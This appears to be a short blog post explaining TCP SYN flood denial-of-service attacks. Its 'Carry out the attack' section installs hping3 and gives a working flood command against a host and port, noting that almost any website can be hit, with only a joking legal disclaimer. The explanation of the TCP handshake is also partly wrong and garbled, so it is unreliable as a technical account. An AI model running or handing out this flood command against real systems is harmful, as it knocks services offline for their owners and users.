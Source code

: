 ```yaml
---
layout: article
title: SYN flood DDOS attack
---
```

## {{ page.title }}

### Abstract

DDOS is a kind of network attack that sends a huge amount of requests to your server until the server cannot handle the requests and crash. There are many forms of DDOS attacks and SYN flood is one of them. 

On tcp/ip protocal a `SYN` request is sent to the server, the server `ACK`s and send a `SYN` to the client and hoping to establish a connection.  If the client intentionally hold back sending the expected `ACK` packet, the server would think the SYN packet is lost and would have to be sent again. And then the server would have to keep sending packets until the server crashes or all the ports are blocked.  Also if the original `SYN` uses fake ip addresses so the server sends `ACK`s to a spoofed ip addresses and floors the victim ips with useless packets.

### Carry out the attack

install a module called hping3.

```
$ sudo apt-get install hping3
```

and then just target a host / port that takes tcp/ip requests and flood them

```
$ sudo hping3 -i u1 -S -p 80 192.168.1.1
```

![](http://i.stack.imgur.com/BsiNk.png)

Basically all the website run on tcp/ip and you should be able to find out what host / port a website is reading stuff from.  The image is just a reference and, for legal reasons, I do not recommend attacking other people's websites. :)

![](http://i.stack.imgur.com/VJ71I.png)

--

references:

* [http://www.binarytides.com/tcp-syn-flood-dos-attack-with-hping/](http://www.binarytides.com/tcp-syn-flood-dos-attack-with-hping/)

{{ page.date | date_to_string }}





